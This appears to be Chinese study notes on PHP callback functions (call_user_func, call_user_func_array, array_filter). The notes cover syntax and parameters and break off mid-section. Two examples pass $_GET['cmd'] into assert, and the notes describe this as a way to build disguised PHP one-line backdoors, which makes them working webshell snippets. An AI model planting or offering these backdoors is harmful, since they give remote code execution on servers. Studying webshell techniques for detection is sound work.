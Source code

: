 call_user_func — 把第一个参数作为回调函数调用
```
语法
call_user_func( callable$callback, mixed$parameter= ? , mixed$...= ? ) : mixed
第一个参数 callback是被调用的回调函数，其余参数是回调函数的参数。

举个例子
<?php
call_user_func("assert",$_GET['cmd']);
?>

通常用来制作变形的PHP一句话后门
```

call_user_func_array — 调用回调函数，并把一个数组参数作为回调函数的参数
```
语法
call_user_func_array( callable$callback, array $param_arr) : mixed

把第一个参数作为回调函数（callback）调用，把参数数组作（param_arr）为回调函数的的参数传入。

参数¶
callback
被调用的回调函数。

param_arr
要被传入回调函数的数组，这个数组得是索引数组。

更新日志¶
版本	说明
5.3.0	对面向对象里面的关键字的解析有所增强。在此之前，使用两个冒号来连接一个类和里面的一个方法，把它作为参数来作为回调函数的话，将会发出一个E_STRICT的警告，因为这个传入的参数被视为静态方法。
举个例子

<?php
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>
```


array_filter — 使用回调函数过滤数组的元素
```
语法
array_filter( array $array, callable|null $callback= null, int $mode= 0 ) : array
遍历 array数组中的每个值，并将每个值传递给 callback回调函数。 如果 callback回调函数返回 true，则将 array数组中的当前值返回到结果 array 数组中。

返回结果 array 数组的键名（下标）会维持不变，如果 array参数是索引数组，返回的结果 array 数组键名（下标）可能会不连续。 可以使用 array_values()函数对数组重新索引。

参数¶
array
要遍历的数组

callback
使用的回调函数

如果没有提供 callback回调函数，将删除数组中 array的所有“空”元素。 有关 PHP 如何判定“空”元素，请参阅 empty()。

mode
决定哪些参数发送到 callback回调的标志：

ARRAY_FILTER_USE_KEY- 将键名作为 callback回调的唯一参数，而不是值
ARRAY_FILTER_USE_BOTH- 将值和键都作为参数传递给 callback回调，而不是仅传递值
默认值为 0，只传递值作为 callback回调的唯一参数。
返回值¶
```